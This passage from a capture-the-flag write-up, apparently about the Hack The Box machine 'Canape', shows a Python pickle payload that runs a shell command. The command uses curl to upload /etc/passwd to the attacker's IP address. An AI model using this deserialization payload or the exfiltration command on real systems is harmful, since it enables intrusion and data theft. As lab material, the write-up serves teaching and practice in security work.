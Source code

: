 Thanks to this method I found out that I was executing commands as ``www-data`` (meaning I couldn't read the user flag) and that the user of the machine was ``Homer``.

### Curl to send files

Then, I though about getting files, so I looked at curl and found a way to get these. Hence, I modified my script in order to execute the command I wanted:

```py
cmd = "curl --form 'fileupload=@/etc/passwd' 10.10.14.143:8001"

char = """cposix
system
p0
(S'{};homerp1'
""".format(cmd)
```

There was just one problem, I needed something in order to get the data from the POST request. I googled a bit and found a [simple python server](https://gist.github.com/kylemcdonald/3bb71e4b901c54073cbc) that listened to these kind of requests:

*Output from the curl POST command*

![Img](/assets/posts_details/Canape/images/etc_passwd.png "Img")
